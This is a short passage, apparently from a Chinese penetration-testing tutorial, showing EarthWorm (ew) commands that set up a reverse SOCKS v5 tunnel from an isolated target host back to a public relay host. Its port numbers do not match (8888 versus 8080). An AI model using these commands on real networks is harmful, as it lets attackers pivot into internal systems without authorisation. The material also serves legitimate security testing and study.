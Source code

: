 ![](img/6.png)

#### 反弹SOCKS v5服务器

```bash
# 具有公网IP的主机上执行如下命令
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888

# 目标不出网主机上启动SOCKS v5服务并反弹到公网主机的8888端口
ew_for_Win.exe -s rssocks -d 192.168.168.71 -e 8080
```
